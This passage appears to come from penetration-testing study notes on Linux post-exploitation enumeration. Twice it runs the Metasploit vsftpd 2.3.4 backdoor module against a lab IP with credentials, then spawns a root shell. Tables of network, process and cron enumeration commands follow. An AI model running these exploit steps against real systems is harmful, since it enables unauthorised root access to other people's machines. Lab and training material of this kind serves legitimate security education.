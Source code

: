 ```bash
msf6> setg rhosts 192.206.83.2
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> set username administrator
msf6> set password tinkerbell
msf6> run
# CTRL+Z
msf6> sessions -u 1
msf6> sessions 2
meterpreter> shell
/bin/bash -i
root@victim> id  # root
```

| Command                | Description               |
| ---------------------- | ------------------------- |
| `ifconfig` `ip a s`    | Network interfaces.       |
| `netstat`              | Current TCP/UDP services. |
| `route`                | Route table.              |
| `cat /etc/networks`    | Networks file.            |
| `cat /etc/hostname`    | Hostname file.            |
| `cat /etc/hosts`       | Local DNS file.           |
| `cat /etc/resolv.conf` | The default DNS.          |
| `arp`                  | The ARP table.            |

#### Processes & cron jobs

After gaining initial access to a target system, it is always important to learn more about the system like, what processes, services and sheduled tasks are currently running.

What are we looking for?

* Running services
* Cron jobs

```bash
msf6> setg rhosts 192.206.83.2
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> set username administrator
msf6> set password tinkerbell
msf6> run
# CTRL+Z
msf6> sessions -u 1
msf6> sessions 2
meterpreter> shell
```

| Command             | Description                              |
| ------------------- | ---------------------------------------- |
| `ps`                | Process list.                            |
| `pgrep vsftpd`      | Process PID.                             |
| `top`               | List of all running processes (dynamic). |
| `crontab -l`        | List of cronjobs for the current user.   |
| `ls -la /etc/cron*` | Cron files.                              |
| `cat /etc/cron*`    | Display cron file contents.              |
